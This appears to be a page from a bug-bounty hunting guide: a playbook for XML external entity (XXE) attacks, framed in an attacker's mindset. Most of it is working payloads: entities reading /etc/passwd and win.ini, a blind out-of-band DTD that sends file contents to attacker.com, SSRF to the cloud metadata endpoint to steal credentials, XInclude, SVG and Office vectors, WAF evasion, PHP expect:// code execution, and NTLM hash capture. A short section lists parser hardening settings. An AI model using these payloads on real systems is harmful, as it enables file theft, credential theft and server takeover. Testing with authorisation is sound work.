

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Phase 2: Access Control](Access%20Control.md) >>*
---

# XXE Injection : Master Playbook

> **Goal:** Trick the server's XML parser into reading local files from its own hard drive or making internal network requests on your behalf.
> **Triggers:** SOAP APIs, SAML responses, File Uploads (.svg, .docx), and any XML-based request body.
> **Context:** XML is an old way computers talk to each other. It has a feature called "Entities", which are basically variables. Instead of typing a long string 100 times, a developer can define a variable `&myText;` at the top of the file. XXE happens when you tell the parser: "Hey, make a new variable called `&xxe;`, but don't fill it with text... fill it with the contents of your `/etc/passwd` file!"
> **Hacker Mindset:** "The server is reading a structured message (XML). I'm going to add a 'Custom Instruction' at the top that tells the server to go grab a file from its own hard drive or phone home to my malicious server."

---

## 0. Exploit Selection Search Tree
*Use this logic to decide which technique to use based on the XML parser's behavior:*



1.  **Is the XML content (your canary) reflected on the page?**
    *   **Yes** → Use **[[#2.1 Local File Read (LFR)]]** (Direct file extraction).
2.  **Is reflection silent, but the server displays XML error messages?**
    *   **Yes** → Use **[[#2. Exploitation Techniques]]** (Leverage Error-Based exfiltration).
3.  **Is the response completely silent (no errors, no reflection)?**
    *   **Yes** → Use **[[#2.2 Blind XXE (Out-of-Band)]]** (Phone home to your OOB listener via remote DTD).
4.  **Are you in a cloud environment (AWS, GCP, Azure)?**
    *   **Yes** → Pivot to **[[#2.3 SSRF via XXE]]** (Steal IMDS credentials).
5.  **Is your input inside a single tag where you can't define a DOCTYPE header?**
    *   **Yes** → Use **[[#3.1 XInclude Attacks]]** (Inject inside the node using xi:include).
6.  **Are you testing file uploads (Documents, SVGs, or Office files)?**
    *   **Yes** → Pivot to **[[#3. Specialized XXE Vectors]]** (SVG/Office XXE).
7.  **Can you use a remote DTD to "siphon" data even if standard blind payloads fail?**
    *   **Yes** → Use **[[#2.2 Blind XXE (Out-of-Band)]]** (DTD Siphoning).
8.  **Can you use the PHP `expect://` wrapper to escalate XXE to full RCE?**
    *   **Yes** → See **[[#8.1 XXE to RCE (The PHP Expect Wrapper)]]**.
9.  **Are you testing a SAML login? Can you use XXE to bypass signatures?**
    *   **Yes** → See **[[#8.4 SAML XPath Node Confusion]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Basic (In-Band)** | Forcing the librarian to read a restricted book out loud for you. | Injected "Canary" reflects in response. | `/etc/passwd` or `win.ini` content appears on screen. | **Critical** (P1) |
| **Error-Based** | Forcing the librarian to scream the contents of a book while complaining. | File contents appear inside a syntax error. | Error text contains `/root/` or system paths. | **Critical** (P1) |
| **Blind (OOB)** | Slipping the librarian a note that tells them to "mail" the book home. | Interaction logged in your DNS/HTTP listener. | You see `passwd-data.your-server.com` in logs. | **Critical** (P1) |
| **SSRF (Cloud)** | Telling the librarian to go to a secret back room and fetch master keys. | Request to `169.254.169.254` succeeds. | AWS/GCP Metadata tokens exfiltrated. | **Critical** (P1) |

---

---

## 1. Detection & Fingerprinting
> **Goal:** Prove that the XML parser is actually processing "External Entities" (Custom Variables) by sending a harmless test variable.
> **Triggers:** You intercepted a request in Burp and noticed the body looks like `<xml>...`.
> **Context:** Not all XML parsers are vulnerable. Modern ones turn off the "External Entities" feature by default. We have to test it by defining a harmless variable (the "Canary") and seeing if the server echoes it back to us.
> **Hacker Mindset:** "Before I try to steal files, let me just see if the parser obeys my custom variables. If I define `canary` as `VULNERABLE` and the server says 'Hello VULNERABLE', I know the door is wide open."

### 1.1 What to Look For

*   **XML Request Body**: Look for `<?xml version="1.0"?>`.
*   **SOAP/SAML**: These protocols are built on XML.
*   **File Parsing**: Upload an `.svg` or `.docx` and see if the server processes it.

### 1.2 Initial Probes (The Canary)
Inject a local entity and see if it populates:
```xml
<!DOCTYPE root [ <!ENTITY canary "VULNERABLE"> ]>
<user>&canary;</user>
```
*# If the server says "Hello VULNERABLE", XXE is possible.*

---

## 2. Exploitation Techniques

### 2.1 Local File Read (LFR)
> **Goal:** Steal sensitive files directly from the server's hard drive.
> **Triggers:** You successfully reflected your "Canary" variable in the response.
> **Context:** Now that we know the parser obeys our variables, we change the variable from a simple string to a `SYSTEM` command. `SYSTEM` tells the XML parser to go fetch something—usually a file—and dump its contents into our variable.
> **Hacker Mindset:** "I've proven I can write variables. Now I'll create one named `&xxe;` and point it at the Linux password file. When the server goes to print my name, it prints the password file instead."

*   **Linux**:
    ```xml
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <root>&xxe;</root>
    ```
*   **Windows**:
    ```xml
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
    <root>&xxe;</root>
    ```

### 2.2 Blind XXE (Out-of-Band)
> **Goal:** Steal files even when the server doesn't show you the XML output on the screen.
> **Triggers:** You upload a malicious XML file, but the server just says "Document Processed Successfully" with no data reflected.
> **Context:** If we can't see the output, we have to use "Out of Band" (OOB) techniques. We tell the parser to read the file, and then immediately attach that file's contents to a URL and send an HTTP GET request to our personal attacking server.
> **Hacker Mindset:** "The server won't show me the file on the screen. That's fine. I'll tell the parser to fetch the file, and then browse to `http://attacker.com/?data=[FILE_CONTENTS_HERE]`."

Used when the response is silent.
1.  **Host a DTD (`exfil.dtd`) on your server**:
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
    %eval;
    %exfil;
    ```
2.  **Inject the pointer**:
    ```xml
    <!DOCTYPE test [ <!ENTITY % remote SYSTEM "http://attacker.com/exfil.dtd"> %remote; ]>
    ```

### 2.3 SSRF via XXE
> **Goal:** Force the server to attack other machines on the internal network.
> **Triggers:** You have XXE, but the server doesn't have any interesting local files, or it's running in the Cloud (AWS/GCP).
> **Context:** Instead of pointing our `SYSTEM` variable at a local `file:///`, we point it at an `http://` address. The XML parser will act like a web browser and fetch that page. Since the request comes *from* the server, it bypasses the external firewall.
> **Hacker Mindset:** "I don't care about the files on this machine. I want the Cloud Provider's master keys. I'll point the XXE at the secret AWS Metadata IP address `169.254.169.254`."

*   **Cloud Meta**: `<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">`
*   **Internal Port Scan**: `<!ENTITY xxe SYSTEM "http://localhost:3306/">`

---

## 3. Specialized XXE Vectors

### 3.1 XInclude Attacks
> **Goal:** Execute XXE when you cannot control the top of the XML document (where `<!DOCTYPE>` goes).
> **Triggers:** Intercepting a request where you only control a single value *inside* an already well-formed XML structure.
> **Context:** Sometimes you can't redefine variables at the top of the file because the backend adds your input into a pre-existing XML template. `XInclude` is a special XML feature built specifically to include outside data, and we can abuse it without needing the `DOCTYPE` header.
> **Hacker Mindset:** "I'm trapped inside a single XML node. I'm going to use the `XInclude` namespace to tell the parser to pull the `/etc/passwd` file directly into this node."

If you can't control the `DOCTYPE`, but your input is inside a tag:
```xml
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</root>
```

### 3.2 Image-Based XXE (SVG)
Upload an `.svg` file with this content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

### 3.3 Office Document XXE (OOXML)
*   **Target**: File Uploads expecting XML-based formats like `.docx`, `.xlsx`, `.pptx`, `.drawio`.
1.  Rename `.docx` to `.zip` and extract.
2.  Open `word/document.xml` and inject the basic XXE test payload.
3.  Rezip and upload the file, then change the extension back to `.docx`. Useful for document pre-processors.

---

## 4. WAF Bypass & Encodings
> **Goal:** Sneak your XXE payload past firewalls that block the string `<!ENTITY`.
> **Triggers:** You send an XML payload and get a `403 Forbidden` from Cloudflare or AWS WAF.
> **Context:** WAFs scan the text of your request looking for dangerous XML tags. But XML is highly versatile. You can encode the entire payload in UTF-16 (a different character set), and the WAF won't recognize the letters, but the backend XML parser will decode it perfectly.
> **Hacker Mindset:** "The WAF blocks `<!ENTITY`. I'll encode my request in UTF-16. To the WAF, it looks like binary garbage. To the XML parser, it looks like a valid explosive."

*   **Character Encoding**: Target filters by sending XML in **UTF-16** (some WAFs only scan UTF-8).
*   **Nested Entities**: Split signatures across entities:
    ```xml
    <!ENTITY % a "SYST">
    <!ENTITY % b "EM">
    <!ENTITY % c "%a;%b;">
    ```

### 4.1 External DTD (The "DTD Siphon")
If internal entities are blocked, load the DTD remotely:
```xml
<!ENTITY % xxe SYSTEM "http://attacker.com/steal.dtd">
%xxe;
```

---

## 5. Dangerous Backend Patterns (Source Review)
> **Goal:** Identify vulnerable XML parsing code when you have access to the application's source code.
> **Triggers:** You are doing a White-Box penetration test or found a GitHub repository containing the target's source code.
> **Context:** Different programming languages use different XML libraries. If those libraries don't explicitly disable "External Entities", they are usually vulnerable by default.
> **Hacker Mindset:** "I'm looking at their Java code. They used `DocumentBuilderFactory` but they forgot to add the `setFeature` line that disables DOCTYPEs. This app is vulnerable to XXE on day one."

### 5.1 Java (DocumentBuilderFactory)
*   Must explicitly disable DOCTYPES to prevent XXE: `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`

### 5.2 PHP (libxml)
*   Legacy PHP requires explicit protection: `libxml_disable_entity_loader(true);`

### 5.3 Python (lxml)
*   Default parsers might be vulnerable unless configured with `resolve_entities=False`.

---

## 6. Target Chaining & Pivots

*   **XXE → SSRF → Cloud RCE**: Use XXE to hit the metadata endpoint, steal creds, and take over the AWS account.
*   **XXE → Internal File Leer**: Read source code (`config.php`) to find hardcoded passwords or session secrets.
*   **XXE → NTLM Leaks**: Point SYSTEM to a UNC path (`\\attacker-ip\share`) to capture the server's NTLM hash.

---

## 7. XXE Toolbox

| Tool | Primary Command |
| :--- | :--- |
| **XXEInjector** | `ruby xxeinjector.rb --url <url> --file req.txt` # Automated tool. |
| **Burp Collaborator** | Essential for OOB interactions. |
| **Docem** | Utility for creating XXE payloads in OOXML (.docx/.xlsx). |

## 8. Multi-Disciplinary Exploitation Vectors (Legacy Synthesis)

### 8.1 XXE to RCE (The PHP Expect Wrapper)
*   **Goal**: Achieve direct code execution by abusing the non-default `expect://` PHP wrapper.
*   **Payload**:
    ```xml
    <!DOCTYPE root [ <!ENTITY xxe SYSTEM "expect://id"> ]>
    <root>&xxe;</root>
    ```
*   **Proof/Writeup**: [HackerOne #227880](https://hackerone.com/reports/227880), [Medium: From XXE to RCE with PHP Expect](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7).

### 8.2 Advanced DTD Siphoning (The "DTD Tunnel")
*   **Technique**: Use a remote DTD to bypass firewalls that only allow outbound DNS/HTTP to specific listeners.
*   **Elite Strategy**: Host the DTD on a public GitHub Gist or Pastebin if your IP is blocked. The XML parser will fetch the "raw" text and execute the exfiltration logic.

### 8.3 OOXML & Document Triage [Audit-6.5]
*   **Office Formats**: Word (.docx), Excel (.xlsx), PowerPoint (.pptx).
*   **Draw.io**: A specialized vector for diagramming tools.
*   **Triage Workflow**:
    1. Unzip the document.
    2. Gathers all `xml` files.
    3. Use `grep -r "DOCTYPE" .` to find existing entities or inject new ones into `[Content_Types].xml` or `word/document.xml`.

### 8.4 SAML XPath Node Confusion
*   **Scenario**: SAML responses use XML signatures.
*   **Exploit**: Use XXE to inject/mutate the XML structure so that the signature validation selector picks a malicious node instead of the legitimate one.

---

## 9. Resources
*   [PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
*   [PayloadsAllTheThings - XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
*   [HackTricks - XXE Injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
*   [Docem Tool](https://github.com/mweissbacher/docem) - For automating OOXML XXE.

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Phase 2: Access Control](Access%20Control.md) >>*
